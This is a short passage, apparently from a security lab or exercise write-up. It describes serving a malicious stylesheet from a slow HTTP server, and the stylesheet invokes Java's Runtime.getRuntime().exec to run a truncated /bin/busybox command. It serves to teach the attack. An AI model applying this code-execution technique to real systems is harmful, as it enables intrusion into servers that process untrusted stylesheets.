 ![Slow HTTP server script](assets/exercise4/image9.png)

The file that will be served is malicious stylesheet. For more information, refer to the previous section.

In the following stylesheet, we are invoking the methods `Runtime.getRuntime().exec("/bin/busybox ....")`.

